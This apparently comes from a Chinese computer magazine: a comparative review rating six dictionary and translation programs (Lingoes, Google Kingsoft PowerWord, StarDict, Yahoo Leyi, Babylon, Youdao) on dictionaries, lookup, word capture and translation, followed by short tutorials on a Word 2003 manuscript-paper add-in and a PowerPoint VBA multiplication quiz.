灵格斯只是一个外壳，用户可以在灵格斯词霸的官方网站下载并安装个性化的词典。根据官方网站的描述，灵格斯词典库中包含有超过80种语言、上千部主题范围广泛的词典与百科全书，这些词典来自于词典出版商、合作伙伴、开源社区以及全球Lingoes用户的精心制作。除了《康熙字典》、《牛津高阶英语词典》、《朗文当代英语词典》、《柯林斯高阶英语词典》等常用的经典工具外，灵格斯词霸网站还提供了诸如《大英百科全书》、《微软术语翻译表》、《PHP4 简明函数索引》、《家庭实用菜谱》等特色“词典”供用户使用。而且，灵格斯词霸还提供了联机词典功能，可以借助网络引擎帮助用户找到最新词汇的词义解释。在词典的丰富程度方面，灵格斯词霸的优势十分明显。

### 小技巧：灵格斯词典库的安装方法

使用词典之前，首先需要安装“灵格斯词霸”。登录灵格斯词典网站，地址为：http://www.lingoes.cn/zh/dictionary/index.html。在网页的左侧，按照语种、专业、英语/汉语、小语种/汉语、百科全书等类别搜索相应的词典库。下载词典到本地硬盘后，双击词典文件即可自动安装。用户也可以直接从灵格斯词霸的“词典管理”对话框中点击“安装”按钮，然后选择词典文件进行安装。如图8所示。



#### (2) 谷歌金山词霸

默认状态下，软件为用户设置了11本常用词典。其中，包括了最受用户欢迎的《现代英汉综合大辞典》、《汉英词典》（新）等，这些词典经过再三改版，确保了词条的及时性，并且修正了部分用户反映的错误，增加了各种新词条，满足了用户的日常需求。这也是金山词霸长盛不衰的原因之一。使用时，在软件界面上单击右键，打开“设置→词典管理”，在弹出的界面中，可以看到“查词”、“取词”和“查句”三个选项卡。在默认查词界面中，目前收录了《简明英汉词典》等8部词典，另外可供使用的词典有9部，如《汉英体育词典》等；在取词方面，有《简明英汉词典》等11部词典；在查句方面，目前有《英汉通用句典》。考虑重复的词典库，目前软件可以使用的词典库共有18部。如图9所示。



#### (3) 星际译王

该词典要在安装完程序之后才能下载和设置。点击星际译王主窗口下部的“访问星际译王项目主页”按钮，登录到星际译王的主页。在这里，用户可根据需要下载星际译王的词典文件。当然，用户也可以直接通过词典管理界面进行操作。方法为：单击主窗口右下角的词典管理按钮，或者单击主菜单按钮并选择“词典管理”。在词典管理对话框中，打开“网络词典”选项卡，在弹出的界面中单击“添加”按钮，即可下载相应的词典。需要注意的是，使用之前必须注册帐号或登录已有帐号。安装完毕，星际译王将在“~/.stardict/dic”目录查找词典文件，在“~/.stardict/treedict”目录查找树型词典文件。此外，在词典管理中，用户可以屏蔽不需要的词典，设置词典查询的顺序等。如图10所示。



#### (4) 雅虎乐译

在雅虎网站http://soft.cn.yahoo.com/ly/download.html，提供了专门的词典下载。不过，总体数目偏少，共九部。在汉语词典区，包括：《懒虫汉英词典》、《汉语成语词典》、《高级汉语大词典》；在英语词典区，包括：《21世纪双语科技词典》、《英语共同创作国际词典》、《21世纪英汉汉英双向词典》；在综合词典区，包括：《我爱法语-法汉词典》、《新德汉词典》、《本草纲目》等。如图11所示。


### 小技巧：雅虎乐译添加词典的方法

操作方法如下：在主界面窗口左上方的“菜单”选项中选择“词典管理”，或用鼠标右键单击桌面右下角的软件托盘，在弹出的菜单中选择“词典管理”；在弹出的词典管理窗口中，点击“从雅虎网站下载词典”，选择并下载词典文件。下载完毕，将文件解压缩到任一路经下，点击词典管理窗口的“点击这里安装词典”，选择解压缩好的词典文件。选择完毕，单击“添加词典”按钮，待词典自动导入后，即成功添加了词典文件。

巴比伦中文免费版和有道桌面词典没有提供字典库设置功能。

### 2. “找得到”：索引查询能力

当用户对单词记忆模糊时，可以通过索引查询功能准确定位到所需要的单词上。当用户输入查询词后，程序还可以对当前输入的内容实时输出与之相符的单词或词组。此外，为了方便用户查找文件，现在许多软件还提供了通配符功能，当查找文件或文件夹时，可以使用它来代替一个或多个真正字符；当不知道真正字符或者不想键入完整名字时，也可以使用通配符代替一个或多个真正字符。

### 小技巧：

通配符是指一类键盘字符，主要包括星号 (*) 和问号 (?)。其中，可以使用星号代替0个或多个字符；可以使用问号代替一个字符。

为了测试上述功能，这里选择了 "study"、"dictionary" 等单词进行查询。测试结果表明，灵格斯词霸支持实时输入提示和通配符查询功能，但通配符查询的结果不太准确；谷歌金山词霸目前版本支持实时输入提示和通配符查询功能；星际译王目前版本支持实时输入提示和通配符查询功能；雅虎乐译目前版本支持实时输入提示，但不支持通配符查询功能；巴比伦中文免费版不支持实时输入提示，也不支持通配符查询功能；有道桌面词典支持实时输入提示和通配符查询功能。

### 小技巧：模糊查询功能

当用户记不清楚某个单词的具体拼写时，还可以尝试一下星际译王的模糊查询。使用时，用户只需在输入框输入所查询的单词，然后回车或点击输入框后面的“模糊查询”按钮。稍等片刻，星际译王即会在列表框中给出与之相似的匹配结果。

从测试的情况来看，谷歌金山词霸、有道桌面词典、星际译王的表现比较令人满意，对于实时输入提示和通配符查询功能均支持。

### 3. “找得准”：取词精度与智能识别

在使用搜索引擎的过程中，我们经常会有这样的体会：输入关键词后，可以马上找到一大堆答案，但这些结果却往往不能令人满意。因此，“找得准”也成为提高工作效率的一个重要方面。下面，主要从错词纠正、查询结果对比等方面进行测试。在这里，用“dictionary”作为测试单词，并设置一个错误单词“dictionaly”来测试软件的纠正能力。为了测试查询结果的准确度，还将测试该词的对比翻译情况。

#### （1）灵格斯词霸

在界面文本框中输入错误的单词后，软件直接跳转到正确的单词。单击索引窗口的“dictionary”单词，软件提供了详细的单词解释，并能够根据设置的词典库进行对比显示。为了方便用户阅读查询结果，单击某个词典查询结果右侧的展开/折叠符号，还可以巧妙地展开或折叠查询结果。通过这样的设置，有利于用户快速了解所查询的信息。如图12所示。



#### （2）谷歌金山词霸

在错词纠正方面，谷歌金山词霸没有提供纠错提示，而是直接给出正确的单词结果。单击该单词，即可看到详细的查询信息，每个释义都给出了配套例句。同时，谷歌金山词霸在右侧也提供了一个展开/折叠符号。由于软件巧妙地将查询词放到了输入文本框中，因此，界面的可阅读性更强。值得一提的是，谷歌金山词霸的例句功能十分方便，直接切换到“例句”界面，软件会直接列出与该词相关的句子。如图13所示。


#### （3）星际译王

在界面文本框中输入错误的单词后，软件也会直接给出正确的单词提示。为了便于用户查询，星际译王在查词窗口中使用了WordNet词典渲染引擎。这样，在用户查询单词的时候，就会出现一个形象的词汇关系图，把相关词汇和词汇变化生动地表现出来。不过，软件并没有提供折叠/展开功能，这方面需要加以改进。如图14所示。



#### （4）雅虎乐译

在文本框中输入错误的单词后，软件直接提示：“没有找到与dictionaly相关的单词。”并在软件下方给出了相似单词的提示，单击这个正确的单词，即可进入界面。与其他软件相比，整个过程似乎略显繁琐。不过，在单词注释方面，雅虎乐译比较体贴用户，在查询结果中给出了比较详细的解释，包括：英汉、英英及网络解释。尤其是其中的英英词典，对专业英语学生作用很大。对于文化差异较大的单词，如reckon、estimate、assess、evaluate等，直接阅读汉语解释往往十分费解，而查看英文解释后，马上就能明白了。如图15所示。



#### （5）巴比伦中文免费版

在错词纠正方面，babylon中文免费版功能明显过于简单，既没有正确的单词提示，也没有纠错功能。在单词的解释方面，仅仅给出了一种词语解释，没有提供对比解释功能。

#### （6）有道桌面词典

在错词纠正方面，有道桌面词典有纠错提示，并给出了正确的单词拼写。单击正确的单词，稍等片刻之后，进入解释界面。在此界面中，给出了“英汉翻译”和“英英翻译”，下方还给出“例句与用法”、“百科”，并提供了“展开模式”和“折叠模式”。如图16所示。



从上面测试情况来看，灵格斯词霸、谷歌金山词霸、星际译王、雅虎乐译、有道桌面词典表现良好。相比之下，巴比伦中文免费版则明显落后。

### 4. “找得快”：鼠标取词功能

鼠标取词是一项比较重要的功能，能够大大提高用户的单词查询效率。不过，有些软件经常会发生取不到词或取错词的现象，尤其是面对新的操作系统和新的软件版本时，问题更加严重。如果设置不当，鼠标取词也会妨碍用户的日常操作。因此，除了能够识别多样化的文档格式，还应尽量符合用户的操作习惯。那么，如何在方便性和实用性方面达到平衡呢？考虑到大多数词典软件都能够对TXT、DOC、XLS等常用格式提供较好的支持，这里主要选择：菜单取词、网页取词、特殊而比较常用的CAJ格式取词。其中，CAJ格式是由同方知网提供的专用文件格式，用于“中国期刊网”资料的查询，由于该格式比较特殊，而且也具有一定的用户群，因此其测试意义也比较独特。

#### （1）灵格斯词霸

灵格斯创造性地将划词、词典查询和即时翻译三大功能融合在一起。在使用鼠标取词之前，单击灵格斯词霸主界面中主菜单按钮下的“设置”选项，在弹出的窗口中单击“取词”选项卡，即可对屏幕取词进行个性化设置，丝毫不影响用户的工作。当鼠标选中的是单词时，就会为用户查词典；当选中的是一段文本时，就会为用户即时翻译。

### 小技巧：灵格斯屏幕取词的设置方法

在设置屏幕取词时，用户可以设置取词模式为：“鼠标悬停”、“鼠标左键按下”、“鼠标中键按下”、“鼠标右键按下”等，并能对鼠标延时进行设置。还可以设置仅显示第一个取词结果，以及设置不对拉丁文、中日韩文或阿拉伯文等取词。需要对PDF文件取词时，单击界面右侧的“安装Adobe Acrobat PDF插件”按钮即可。



在鼠标取词的格式上，软件支持菜单取词、网页取词，不支持CAJ格式取词。如图17所示。

#### （2）谷歌金山词霸

在划词翻译上，谷歌金山词霸对选中的词语均能提供较好的支持。测试过程中，软件支持菜单取词、网页取词，但不支持CAJ文档取词。值得一提的是，软件还提供了汉语拼音功能，这对于汉语拼音越来越差的用户来说，无疑是一大快事。不过，与灵格斯的低调风格相反的是，谷歌金山词霸在默认的取词设置上略显张扬，容易干扰用户的操作。

#### （3）星际译王

选择主窗口左下方的“取词”选择框，星际译王即可进入取词状态，用户可以用鼠标双击或点住横拉选取单词，使单词处于反选状态，在单词附近即会弹出一浮动窗口，显示此单词的释义。此外，用户还可以通过单击浮动窗口上的按钮来实现现在主窗口查询单词，把查询结果复制到剪贴板，朗读单词，停止选中区取词等。测试过程中，软件支持菜单取词、网页取词，但不支持CAJ文档取词。在取词匹配方面，显得还不够灵活，智能取词功能相对较差。

#### （4）雅虎乐译

支持菜单取词，但不支持网页取词和CAJ文档取词。

#### （5）巴比伦中文免费版

babylon中文免费版目前版本不支持菜单取词、网页取词、CAJ文档取词。

#### （6）有道桌面词典

有道桌面词典支持菜单取词、网页取词，对于CAJ文档没有反应。

总的来看，在词典查询及取词方面，灵格斯词霸和谷歌金山词霸表现比较突出，无微不至的取词服务往往会给翻译工作带来很大的方便。大部分软件对常用的格式都提供了较好的支持，如TXT、DOC、XLS等，能够直接取词翻译。对于一些特殊的文件格式如CAJ等，这些软件还没有提供较好的支持。不过，过于频繁的划词功能往往会干扰日常的工作，在设置默认功能时，还应考虑用户的操作体验。

| 软件名称 | 词典库 | 索引查询 | 取词精度 | 鼠标取词 | 总体评价 |
| --- | --- | --- | --- | --- | --- |
| 灵格斯词霸 | ★★★★★ | ★★★★☆ | ★★★★★ | ★★★★★ | ★★★★☆ |
| 谷歌金山词霸 | ★★★★☆ | ★★★★★ | ★★★★☆ | ★★★★☆ | ★★★★☆ |
| 星际译王 | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★☆☆ | ★★★★☆ |
| 雅虎乐译 | ★★★☆☆ | ★★★☆☆ | ★★★★☆ | ★★★☆☆ | ★★★☆☆ |
| 巴比伦中文免费版 | ★★☆☆☆ | ★★☆☆☆ | ★★★☆☆ | ★★☆☆☆ | ★★☆☆☆ |
| 有道桌面词典 | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★☆☆ | ★★★☆☆ |## 1. 重点句及全文翻译能力

全文翻译是对英文文本、网页等类型的文件进行翻译，而重点句则是全文翻译的重要组成部分。目前，大多数词典软件都提供了全文翻译功能，它们采用全新多语言翻译引擎，用户只需打开相关文件或粘贴文章内容，就能马上实现高质量的翻译，甚至还支持批量文件翻译。这里用 “Actions speak louder than words（事实胜于雄辩）” 进行测试。

### (1) 灵格斯词霸

灵格斯词霸的全文翻译功能需要通过网络联机使用。单击软件主界面中的 “全文翻译” 按钮，即可进入全文翻译界面。在界面的文本框中输入相应的文字，并选择相应的翻译引擎。这里包括：Google翻译、Yahoo翻译、雅虎宝贝鱼、百度翻译、华建翻译等。然后，选择翻译的方向，如从 “英语” 到 “中文（简体）”，再单击 “翻译” 按钮，即可得到详细的结果。当然，由于搜索引擎不一样，同样的英文可能会得到不同的中文翻译结果。测试过程中，通过Google全文翻译的结果是 “行动胜于雄辩”，这与正确的翻译结果 “事实胜于雄辩” 还有一些差距。如图18所示。



> 小技巧：
对于重点句或单词较少的文章，可以直接在 “灵格斯词霸” 主界面上方的文本框中输入并查询翻译结果。选择某个网络搜索引擎后，还可以在网络中对比查询结果。

### (2) 谷歌金山词霸

谷歌金山词霸提供了对网页翻译的支持，用户可以直接输入网址并选择语种，实时显示翻译结果，翻译引擎采用由谷歌自行开发出的基于统计的系统网页翻译引擎，能提供较为精准的翻译效果。如果需要翻译网页时，直接在界面下方输入网址，然后单击 “翻译” 按钮得到翻译结果。单击软件主界面中的 “翻译” 选项卡，在 “翻译文字” 区域下方输入需要翻译的文字，并选择翻译方向，如 “英文—中文（简体）”。然后单击 “翻译” 按钮，即可得到由Google提供的翻译结果。对于重点句，用户可以直接在 “例句” 界面中进行翻译。单击 “例句” 选项卡，输入英文句子，可以得到10个参考句型。如图19所示。


小技巧：谷歌金山词霸的例句功能
例句是介于查询与翻译之间的功能，通俗地讲，例句功能指用户在查询某个词汇的时候，不仅可以查询到词汇的翻译、语义等基本功能，还能查询到该词汇在各类相关、相似句子中的用法，这对于写作及对词汇的理解非常重要。

### (3) 星际译王

打开星际译王软件，点击软件工具界面左侧的全文翻译图标即可进入全文翻译界面。星际译王收录了谷歌翻译、雅虎翻译、Altavi-sta翻译、SystranBox翻译、Excite Japan翻译等翻译引擎，并能够进行多语种的在线互译。对于重点语句，也可以直接在主界面上方的文本框中输入并查询。如图20所示。



### (4) 雅虎乐译

雅虎乐译并没有明确区分 “全文翻译”，只提供了相对简单的段落翻译和网页翻译功能。在段落翻译中，翻译的文字需要控制在150词以内。在网页翻译中，输入网址并单击 “翻译” 按钮，即可得到相应的结果。如图21所示。



### (5) 巴比伦中文免费版

使用专业Babylon词典的全文翻译功能，用户可以迅速将网页、电子邮件或文本等翻译成中文进行浏览。不过，目前的Babylon中文免费版暂不支持全文翻译功能。如图22所示。



### (6) 有道桌面词典

有道词典也没有明确提出“全文翻译”功能。对于重点语句，只需在界面上方的文本框中输入需要翻译的内容，然后单击“查词”按钮即可。如图23所示。


## 2. 多语种翻译

- (1) 灵格斯词霸

这是一款简明易用的词典与文本翻译软件，支持80多个国家语言的词典查询、全文翻译、网络释义、屏幕取词、索引提示和语音朗读功能。这些语言包括：英、法、德、意、俄、中、日、韩、西班牙、葡萄牙、阿拉伯语等。

- (2) 谷歌金山词霸

根据软件官方站点的提示，软件支持英汉、汉英、英英、汉汉、汉日、日汉查词，以及中、英、日、繁四种语言共七个方向的翻译，并且可以扩展到29种甚至更多语言的互译。

- (3) 星际译王

目前已有两百多个词典，支持几十种语言，其中中文词汇有100多万。

- (4) 雅虎乐译

支持英汉、汉英、英英三种翻译类型，对其他语言尚未提供支持。

可以实现功能的延伸。不过，用户并非每时每刻都能够自由上网，没有网络的词典软件好似一个“空壳”。因此，评价联机翻译与离线翻译能力，本身就是一个权衡与取舍的过程。

- (1) 灵格斯词霸

目前，百度还与灵格斯联合开发了一系列网络翻译产品，包括百度百科和百度百科释义等。在网络联机词典方面，软件运行流畅，内容丰富，而且能够实时更新，无需在本地安装大量词库，即可通过网络获得快速详尽的翻译结果。灵格斯提供的文本翻译服务，集成了许多优秀的文本翻译引擎，用户可以自由选择它们来翻译文本。默认情况下，软件提供了离线浏览功能，包括《维科英汉词典》等。对于某些特定领域的词典，也可以下载后进行离线浏览。

- (2) 谷歌金山词霸

在联网模式下，用户可以进入爱词霸网中使用更多的学习功能。其中，四六级、托福、沙龙等栏目都可以让爱好英语的用户得到更多的信息。在网络查询方面，通过《Google 网络词典》等词典，可以将新词、流行词一网打尽，并且能够进行有效的释义，从而帮助用户理解各种网络新词的意思。由于软件默认安装了许多词典库，因此，即使没有联机，也可以方便地进行离线查询。

- (3) 星际译王

在星际译王主页（http://search.babylon.com）里，有上千本免费词典供用户选择使用，而且下载使用的方法十分简单，查询设置也相当方便。用户下载这些免费词典后，也可以在本地进行离线查询。

- (4) 雅虎乐译

雅虎乐译依托强大的雅虎全球搜索技术，给用户提供了全面便捷的搜索翻译功能，并能够针对网络流行词汇给出网络解释。雅虎在线翻译提供多种语言的全文翻译，翻译准确率较高，网站地址为：http://fanyi.cn.yahoo.com。此外，软件还提供了一个互动交流社区，用户可以在这里进行英语学习、翻译等方面的交流。默认情况下，软件没有提供离线浏览功能。如果用户需要在未联网时查看常用字典解释，可以在网络连接正常时下载雅虎乐译离线词库文件。

- (5) 巴比伦中文免费版

巴比伦中文免费版的中文支持页面相对简单。要想获得译文，用户的电脑必须处于联网状态。因此，巴比伦是一个纯粹的网络词典软件，离开了网络后，软件功能就要大打折扣了。

- (6) 有道桌面词典

有道桌面词典结合了互联网在线词典和桌面词典的优势，除具备中英、英中、英英翻译功能外，创新的“网络释义”功能将各类新兴词汇和英文缩写收录其中，并就任一词条可提供多达30个网络例句参考，突破了传统词典的例句容量限制。软件不但具有常规的英汉、汉英、英英翻译功能，还能够提供普通字典里所无法收录的各类词汇的网络释义。此外，在离线情况下，有道词典也可以进行简单检索。

## 4. 辅助功能

灵格斯提供了开放式的真人发音引擎，让用户可以聆听纯正的真人朗读，掌握正确的发音。用户可以自由地添加和删除语音库，也可以方便地自行制作语音库。在启用真人发音的时候，灵格斯会首先从真人语音库中查找是否有对应的单词语音文件，如有则播放，如无，则会启动TTS合成语音引擎来辅助发音，无需用户额外干预，方便实用。

### 小技巧：安装语音库的方法

首先，打开灵格斯安装目录下的speech文件夹，在里面创建一个子文件夹（文件夹命名是随意的，建议使用语音库的名称），然后将下载到的语音库压缩文件解压到这个目录下即可。然后，在灵格斯主界面中单击“设置”按钮，在弹出的界面中单击“语音”选项卡，在真人发音引擎设置区域，单击“启用”选择框，选中安装的声音即可。在每次安装/修订语音库后，可以点一下“重建索引文件”按钮，这样灵格斯就会重新创建正确的单词索引文件，从而大大提升软件在查找和播放语音文件时的速度。如图24所示。



除了真人英文发音和汉语发音，灵格斯还提供了许多实用的工具。使用之前，单击左侧的第三个按钮，切换到“附录”标签。在这里，软件提供了许多实用的工具，包括：实用外语网址、汉字简繁转换、万年历、化学元素周期表、Base64编解码、科学计算器、词典缩略语表、不规则动词表、常见英美人名、国家地名表、中国邮政编码等。单击附录下方的按钮，还可以使用汇率换算、度量衡换算、国际电话区号、国际时区转换。以度量衡计算为例。使用时，单击附录下方的“度量衡换算”按钮。这时，右侧窗格马上会弹出一个度量衡换算页面。在这个页面中，用户输入需要换算的数据，然后再点击一下“换算”按钮。稍等片刻，结果马上就显示出来了。在这里，用户可以进行重量、长度、面积、体积、温度、功率、热量、压力等方面的换算。如图25所示。



### 小技巧：

灵格斯的“实用外语网址”。对于学习英语的用户来说，可以利用灵格斯的“实用外语网址”来查询优秀的英语站点。直接单击导航地址，即可进入相应站点。网站内容十分丰富，涵盖了综合站点、在线词典、在线翻译、外语人才、英语博客、学术组织、英语考试、外语院校、英语听力、影视广播、阅读写作、商务外贸、语言文学、行业英语等。

### （2）谷歌金山词霸

在语音方面，谷歌金山词霸主要提供了中文和英文两种发音方式。在电脑发音的基础上，提供了30多万的真人语音发音，并且包含了英语中5万长词、难词和词组，即使是专业用户也能得到满意的发音准确性。此外，软件还提供了生词本和迷你背单词工具。

利用谷歌金山词霸的生词本、迷你背单词、单词释义、用法词典等各种功能的交叉组合应用，可以很好地满足用户学习英语、随时记忆单词的需求。其中，“生词本”可以方便用户对生词进行有效的强化记忆，增加词汇量，而生词本中的音标、解释、难易程度、制作卡片等功能又充满了DIY的乐趣。使用方法为：直接在软件界面单击右键，在弹出的菜单中选择“工具”下的“生词本”或“迷你背单词”工具。在查询的过程中，如果用户对所需查询的单词不太熟悉，可以直接选中该单词，在弹出的菜单中选择“加入生词本”。用户在这里还可以方便地制作卡片、进行测试等。如图26所示。



### 小技巧：

迷你背单词是一款单词记忆类工具，可以不断地显示单词供用户随时记忆，界面小巧，占用系统资源也很小。迷你背单词与生词本的关系十分密切。默认状态下，生词本中的内容都会在迷你背单词的悬浮窗内不停地滚动。当把鼠标移动到悬浮窗上时，会出现喇叭图标，点击鼠标左键，就可以对该单词进行人工发音。

### （3）星际译王

在语音方面，软件也提供了方便的朗读功能，而且可以自定义真人语音库。其他辅助功能暂时没有提供。

### （4）雅虎乐译

在语音方面，软件仅提供了Microsoft Sam英文语音功能。在辅助功能方面，软件提供了功能比较独特的“移动笔”和生词本功能。不过，生词本功能相对简单，移动笔的设置也略显花哨，容易干扰用户的操作界面。

### （5）巴比伦中文免费版

在语音方面，软件提供了中英文朗读功能。软件还内置了汇率换算功能，依次执行“开始”菜单下的“转换”选项，即可进入对应界面。

### （6）有道桌面词典

软件提供了英文语音功能，并能够自定义历史记录。其他辅助功能暂时没有提供。

通过对翻译功能和辅助功能的测试，可以看到，灵格斯词霸和谷歌金山词霸的总体表现良好。在全文翻译方面，上述几款软件均未能提供独立的、专业的功能；在多语种翻译方面，灵格斯词霸占有明显的优势；在联机和离线方面，谷歌金山词霸依托强大的社区和搜索引擎人气，优势十分明显；在辅助功能方面，灵格斯词霸表现相对突出，尽管软件体积很小，却有很多实用的功能。

| 软件名称 | 全文翻译 | 多语种 | 联机与离线 | 辅助功能 | 总体评价 |
|---|---|---|---|---|---|
| 灵格斯词霸 | ★★★★☆ | ★★★★★ | ★★★★☆ | ★★★★★ | ★★★★☆ |
| 谷歌金山词霸 | ★★★★★ | ★★★★☆ | ★★★★★ | ★★★★☆ | ★★★★☆ |
| 星际译王 | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★☆☆ | ★★★☆☆ |
| 雅虎乐译 | ★★★☆☆ | ★★☆☆☆ | ★★★★☆ | ★★★☆☆ | ★★★☆☆ |
| 巴比伦中文版 | ★★☆☆☆ | ★★★★☆ | ★★★☆☆ | ★☆☆☆☆ | ★★★☆☆ |
| 有道桌面词典 | ★★★☆☆ | ★★☆☆☆ | ★★★☆☆ | ★★☆☆☆ | ★★☆☆☆ |

下面，对上述几个大项的测试情况进行大致汇总，如下表所示：

| 软件名称 | 界面操作及资源 | 词典查询与取词 | 翻译及辅助 | 总体评价 |
| :--- | :--- | :--- | :--- | :--- |
| 灵格斯词霸 | ★★★★☆ | ★★★★★ | ★★★★☆ | ★★★★☆ |
| 谷歌金山词霸 | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★★☆ |
| 星际译王 | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★★☆ |
| 雅虎乐译 | ★★★★☆ | ★★★★☆ | ★★★☆☆ | ★★★☆☆ |
| 有道桌面词典 | ★★★☆☆ | ★★★★☆ | ★★★☆☆ | ★★★☆☆ |
| 巴比伦中文版 | ★★★☆☆ | ★★★☆☆ | ★★☆☆☆ | ★★☆☆☆ |

考虑到词典翻译软件的广泛性和灵活性，这里的测试仅仅选择了其中的几个典型方面。从上述指标的测试结果来看，表现最好的两款软件是灵格斯词霸和谷歌金山词霸，整体表现几乎不相上下。尤其是灵格斯词霸，该软件支持的互查互译语言种类很全，达到了80多种。此外，灵格斯词霸在界面操作、词典库、索引查询、鼠标取词设置、辅助工具等方面，优势十分明显。因此，对于比较专业的翻译来说，灵格斯词霸是一款不错的选择。

谷歌金山词霸的人气很足，几乎继承了谷歌搜索和金山词霸社区的强大人气，因此在大众用户中拥有不错的知名度。本次测试的结果也验证了这一点。软件在索引查询、取词精度、全文翻译、离线翻译等方面，能力十分出色。尤其是软件安装了一些深受欢迎的词典，如《现代英汉综合大辞典》、《汉英词典》（新）等经典金山词霸词典，同时还新增了用法词典、体育词典、英英词典等各类常用词典，在广大用户中拥有很高的人气和知名度，是普通用户日常办公、学习不可或缺的助手。

星际译王的表现也相当抢眼。它是一款免费的跨平台词典翻译软件，软件单词列表采用了符合人脑思维的树状结构，单击某个分支，即可得到某一方面的详细解释。这个特别设计的功能会吸引不少用户的眼球。值得称道的是，软件免费提供了很多优秀的词典供用户下载，而且在索引查询、取词精度等方面也有不错的表现。美中不足的是软件在智能取词、离线浏览以及个性化设置等方面还略有不足，在细节方面仍有待提高。

其它三款软件整体表现还有待提升。首先是精简小巧的雅虎乐译，尽管它的“智能笔”等功能给人耳目一新的感觉，而且在精简界面、取词精度等方面表现不错，但在全文翻译、多语种翻译、离线翻译等方面差距明显。整体而言，感觉该软件类似于一个具有软件界面的搜索引擎，而且网站所提供的专业服务也明显偏少。其次是网易有道桌面词典，该软件在索引查询等方面给人印象深刻。不过，乍一看，往往会觉得该软件更类似一个网络浏览器。与灵格斯、谷歌金山词霸等软件相比，该软件在操作界面、词典库、多语种以及辅助功能等方面差距十分明显，整体功能仍有待提高。最后一款软件就是采用了大红界面的巴比伦中文免费版。这是一部专为满足中文翻译需求而特别设计的免费字典翻译软件，其智能辞典的多语种翻译功能还能够提供其它语种的中文译文。不过，与该公司出品的专业版本的巴比伦翻译软件相比，本次测试的巴比伦中文免费版整体功能有一定的缩水，最大的限制是无法自己添加字典。当然，联网在线翻译功能可以说顺应了词典翻译软件的大潮流。如果用户对词典翻译没有过高的要求，可以下载这款免费版。

总之，在实际使用的过程中，用户需要考虑自己的实际需求，比如专业翻译的需要、普通翻译的需要以及日常办公场合等。通过上面的综合测试，相信广大用户已经能够快速选择一款适合自己的词典翻译软件。同时，我们也期待这些专业词典翻译软件能够逐步改进，给用户提供更加优质、贴心的服务。

## Word 2003也用稿纸格式

◆文/大嘴鸭

虽然在Word 2007里边可以将文档设置成稿纸格式，但是使用Word 2003的朋友也不在少数，那么，在Word 2003中可不可以使用稿纸格式呢？答案当然是肯定的。今天，笔者就给大家介绍一个插件——Word 2003稿纸加载项（以下简称稿纸加载项），利用这个插件就可以让Word 2003具有稿纸功能。

先从（下载地址：http://www.onlinedown.net/soft/277.htm）下载稿纸加载项并安装，安装完毕后，启动Word 2003，单击菜单“格式”，这时大家就会发现在弹出的菜单底部多出了一个选项——“稿纸设置”，单击该选项，打开“稿纸设置”对话框（如图），在这个对话框中，我们无论是生成空白稿纸，还是给已有的文档添加稿纸格式，一般需要执行以下操作：



### 步骤1：选择稿纸格式

先勾选“稿纸设置”对话框中的“启用稿纸格线”复选框，然后单击“格式”右边的下拉箭头，大家会发现稿纸加载项插件提供了10x20、15x20、20x20和25x20四种稿纸格式，比如，15x20表示在一个页面有15行，每行20个格。在实际的设置稿纸格式的过程中，大家可以根据自己的需要灵活地选择任意一种稿纸格式。

### 步骤2：网格设置

在“稿纸设置”对话框中，大家会发现默认生成的稿纸是方格样式的，其颜色是绿色，这种稿纸格式可能并不符合我们的需求。单击“网格”右边的下拉箭头，大家可以看到稿纸加载项插件还提供了行线和边框这两种稿纸格式供我们选择；最后单击“网格颜色”右边的下拉箭头，选择自己喜欢的颜色即可。

此外，在“稿纸设置”对话框中，还为我们提供了设置稿纸的大小及方向、灵活地添加页眉和页脚的文字等功能，它完全可以满足我们在日常办公中对稿纸格式的要求，有此需求的朋友不妨一试。

## 乘法小测验，PPT来搞定

对于二年级的学生来说，在学习乘法口诀的过程中，经常会做一些因数是10以内的乘法（以下简称10以内的乘法）题目来锻炼他们的计算能力。想想看吧，如果单纯地让学生来做这些题目，因为比较枯燥，相信学生很难有浓厚的兴趣，最终练习的效果也就可想而知了。怎样才能提高学生做10以内的乘法练习题的兴趣，以提高他们的计算能力呢？还是利用电脑来给学生出一些与乘法口诀有关的互动性的题目比较好。今天，笔者就给大家介绍一下，如何利用PPT打造一款能够自动出题并且具有判断对错功能的乘法小测验。

◆文/孙学荣

## 准备工作

第一步：启动PPT2003（其他版本操作类似），新建一个名为“乘法小测验”的PPT文档，再将这个PPT文档保存到硬盘的任意位置（如“F盘根目录”下），然后将默认打开的幻灯片中的所有元素都删除。

第二步：这时PPT文档“乘法小测验”就只包含一张空白的幻灯片了，接着右击幻灯片的任意位置，选择“背景”，打开“背景”对话框，选择一幅自己比较喜欢的图片作为背景；再单击菜单“视图→工具栏→控件工具箱”命令，调出“控件工具箱”并选中该工具箱中的“命令按钮”控件，在幻灯片的下端插入一个命令按钮，最后将命令的界面文字修改为“乘法小测验”，如图1。



## 一、界面的设计

大家会发现在图1所示的窗口中只有一个名为“乘法小测验”的命令按钮，我们要实现的目的是当单击该按钮时，就会弹出一个对话框——“乘法小测验”，在这个对话框中，我们单击相关按钮，可以实现出题、做题和判断题目对错的功能。下面，笔者就给大家介绍一下“乘法小测验”对话框的界面设计。

第一步：单击菜单“工具→宏→Visual Basic编辑器”命令，打开“Visual Basic编辑器”窗口，接着右击“工程资源管理器”面板中的“Slide1”，选择“插入→用户窗体”，插入一个名为“UserForm1”的用户窗体，如图2。



第二步：在Visual Basic编辑器”窗口中，单击菜单“视图→工具箱”命令，调出“工具箱”面板，然后选中“工具箱”中的“文字框”控件，在“UserForm1”的用户窗体中插入六个文字框；接着选中“工具箱”中的“标签”控件，往“工具箱”中插入一个标签；最后右击这个标签，选择“属性”，打开“属性”面板，将该标签控件的Caption属性修改为“第一题”、BackStyle属性修改为“0 - fmBackStyleTransparent”，如图3，A、B两处。



### 小提示

- 1.在图3所示的“属性”面板中，选中“Font”属性，然后单击右边的“…”按钮，打开“字体”对话框，可对标签内的文字进行更改字体和设置字体大小等操作；而选中“ForeColor”属性，再单击右边的下拉箭头并切换到“调色板”选项卡，可更改标签控件内文字的颜色。
- 2.对于添加到用户窗体中的类型不同的控件，相同的属性的修改方法是相同的（如Caption属性），所起到的作用也是相同的。

